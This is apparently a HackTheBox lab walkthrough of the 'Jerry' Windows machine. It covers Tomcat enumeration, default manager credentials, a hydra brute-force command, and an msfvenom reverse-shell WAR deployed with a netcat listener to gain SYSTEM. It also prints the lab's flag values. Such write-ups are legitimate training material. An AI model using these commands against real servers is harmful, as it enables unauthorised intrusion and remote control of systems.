 ```yaml
---
title: HackTheBox - Jerry
date: 2021-08-15 00:36:34 +0100
categories: [Hackthebox walkthroughs, Windows, Easy]
tags: [gobuster, nikto, tomcat, war, default credentials, hydra, msfvenom, htb-windows-easy, writeup, oscp-prep]
image: /assets/img/htb/machines/windows/easy/jerry/Jerry.png
---
```


## Enumeration

### `nmap` scan

```bash
$ nmap -min-rate 5000 --max-retries 1 -sV -sC -p- -oN Jerry-full-port-scan.txt 10.10.10.95
Nmap scan report for 10.10.10.95
Host is up (0.11s latency).
Not shown: 65534 filtered ports
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88
```

### Port 80 (Apache Tomcat/7.0.88)

#### `gobuster`

```bash
$ gobuster dir -u http://$TARGET:8080 -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -x .jsp
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.95:8080
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              jsp
[+] Timeout:                 10s
===============================================================
2021/08/14 20:48:16 Starting gobuster in directory enumeration mode
===============================================================
/aux                  (Status: 200) [Size: 0]
/com2                 (Status: 200) [Size: 0]
/com3                 (Status: 200) [Size: 0]
/com4                 (Status: 200) [Size: 0]
/com1                 (Status: 200) [Size: 0]
/con                  (Status: 200) [Size: 0]
/docs                 (Status: 302) [Size: 0] [--> /docs/]
/examples             (Status: 302) [Size: 0] [--> /examples/]
/favicon.ico          (Status: 200) [Size: 21630]             
/host-manager         (Status: 302) [Size: 0] [--> /host-manager/]
/index.jsp            (Status: 200) [Size: 11398]                 
/lpt2                 (Status: 200) [Size: 0]                     
/lpt1                 (Status: 200) [Size: 0]                     
/manager              (Status: 302) [Size: 0] [--> /manager/]     
/nul                  (Status: 200) [Size: 0]                     
                                                                  
===============================================================
2021/08/14 20:49:58 Finished
===============================================================
```

Since I was curious, I looked for exploits against **Apache Tomcat/7.0.88**:

```bash
$ searchsploit Tomcat 7.0.88
---------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                            |  Path
---------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Apache Tomcat < 9.0.1 (Beta) / < 8.5.23 / < 8.0.47 / < 7.0.8 - JSP Upload Bypass / Remote Code Execution (1)                                              | windows/webapps/42953.txt
Apache Tomcat < 9.0.1 (Beta) / < 8.5.23 / < 8.0.47 / < 7.0.8 - JSP Upload Bypass / Remote Code Execution (2)                                              | jsp/webapps/42966.py
---------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

```

But it appears that the server was not vulnerable:

![](/assets/img/htb/machines/windows/easy/jerry/CVE_2017_12617.png)

#### `nikto`

`nikto` revealed that the credentials to access the `/manager` are the default ones:

- **username**: `tomcat` 
- **password**: `s3cret` 

![](/assets/img/htb/machines/windows/easy/jerry/nikto.png)

> We could also bruteforce them using `hydra`:

```bash
$ hydra -C /usr/share/wordlists/seclists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt -s 8080 $TARGET http-get /manager/html
```

![](/assets/img/htb/machines/windows/easy/jerry/hydra.png)

Once authenticated, the first thing that should come to our eyes is the fact that we can deploy WAR files:

![](/assets/img/htb/machines/windows/easy/jerry/tomcat.png)

## Exploitation

First we need to create a malicious WAR file using `msfvenom`, then we can start a listener:

```bash
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=$(vpnip) LPORT=1234 -f war > shell.war
Payload size: 1102 bytes
Final size of war file: 1102 bytes
$ nc -lnvp 1234
listening on [any] 1234 ...
```

![](/assets/img/htb/machines/windows/easy/jerry/war.png)

If we click on **List applications** or if we simply refresh the page, the `shell` application should appear:

![](/assets/img/htb/machines/windows/easy/jerry/shell_app.png)

Clicking on it will execute it. Then we have a shell as 😯 ... **SYSTEM**!!!

![](/assets/img/htb/machines/windows/easy/jerry/shell.png)

```cmd
C:\Users\Administrator\Desktop\flags>type "2 for the price of 1.txt"    
type "2 for the price of 1.txt"
user.txt
7004dbcef0f854e0fb401875f26ebd00

root.txt
04a8b36e1545a455393d067e772fe90e
```

___

## Interesting links

- [C2 - SILENTTRINITY](https://github.com/byt3bl33d3r/SILENTTRINITY)